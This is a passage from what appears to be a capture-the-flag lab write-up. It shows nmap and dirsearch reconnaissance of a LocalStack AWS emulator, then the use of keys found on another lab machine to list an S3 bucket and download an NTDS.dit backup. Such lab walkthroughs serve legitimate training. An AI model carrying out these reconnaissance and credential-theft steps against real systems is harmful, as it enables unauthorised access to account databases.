

This must be another custom webserver of some sorts:

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9b:b1:18:67:f5:c8:44:0b:f5:66:60:09:29:a5:a1:6b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOTXMtH5S4QDnvTr2BQDiOYxZ1leGmWu8CHH7TVmmXhoyCTh5oDZNyPfdfry/WZfpwb+JTqYJGA+m0oj5c5i8VU=
|   256 1f:18:f9:be:3f:41:d6:d2:c2:e0:df:f6:7e:84:a2:d3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMEiBwAGnY04b7kKQPh/l62KwhZpcYNeVg3gCV++Sh6W
4566/tcp open  http    syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X (90%), MikroTik RouterOS 7.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.10 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.19 - 5.15 (90%), Linux 5.10 (85%), Linux 4.15 - 5.19 (85%), Linux 5.0 - 5.14 (85%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/7%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69D4D836%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=Z%II=RI%TS=A)
SEQ(SP=FB%GCD=1%ISR=101%TI=Z%II=RI%TS=A)
OPS(O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11NW7%O6=M552ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And again same here I see a DNS server, I am starting to think these might be false positives...

```
└─$ nmap -F -sU 10.10.110.254             
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-07 12:51 +0200
Nmap scan report for 10.10.110.254
Host is up (0.023s latency).
Not shown: 98 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds
```

# LocalStack

I did a quick search and apparntly this might be the localstack machine?



A quick web directories fuzzing shows no traces of files or environmental keys that might be used to interrogate the service

```bash
└─$ dirsearch -u "http://10.10.110.254:4566/" --crawl
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/user/Downloads/Wanderer/reports/http_10.10.110.254_4566/__26-04-07_14-55-50.txt

Target: http://10.10.110.254:4566/

[14:55:50] Starting: 

Task Completed

```

Now since this is an emulation platform of AWS i need to find some authentication keys as suggested [here](https://docs.localstack.cloud/aws/getting-started/auth-token/) in the official KB, for this reason i suspect I will be coming here later on when I get more stuff.

# Back on Track

With the credentials obtained by the WIN01 machine saved in the Bennys home folder and I can configure to my AWS settings:

```bash
└─$ aws configure
AWS Access Key ID [None]: SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
AWS Secret Access Key [None]: SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
Default region name [None]: us-east-1
Default output format [None]: json

```

And I can see there is a L3 bucket:

```bash
─(user㉿kali-almi)-[~/Downloads/Wanderer]
└─$ aws s3 ls --endpoint-url http://172.16.0.254:4566
2025-03-18 18:31:36 backups

```

And i can see the NTDS.dit backup?

```bash
//List
─$ aws s3 ls s3://backups --endpoint-url http://172.16.0.254:4566
2025-03-18 18:32:15    4069811 ntds.zip

//Download
┌──(user㉿kali-almi)-[~/Downloads/Wanderer]
└─$ aws s3 cp s3://backups/ntds.zip  . --endpoint-url http://172.16.0.254:4566 
download: s3://backups/ntds.zip to ./ntds.zip 
```

For the NTDS analysys check on the DC page.